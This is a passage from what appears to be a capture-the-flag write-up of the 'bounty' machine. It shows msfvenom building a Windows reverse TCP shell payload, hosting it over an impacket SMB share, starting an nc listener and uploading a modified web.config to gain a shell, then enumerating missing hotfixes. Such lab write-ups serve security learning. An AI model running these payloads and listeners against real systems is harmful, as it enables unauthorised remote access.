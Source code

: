 Then generate new payload, host the payload, and start the following listener. Then upload the modified `web.config`:

```bash
# generate payload
msfvenom --platform windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -f exe -o bubba.exe
# host the payload
sudo impacket-smbserver BUBBA .
# listen for the callback
nc -nvlp 6969
```

And that provides a shell & `user.txt`:

![user](./bounty/user.png)

During system enumeration, it is seen that there are no hotfixes installed. This is a likely indicator that a kernel exploit may be available:

```bash
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
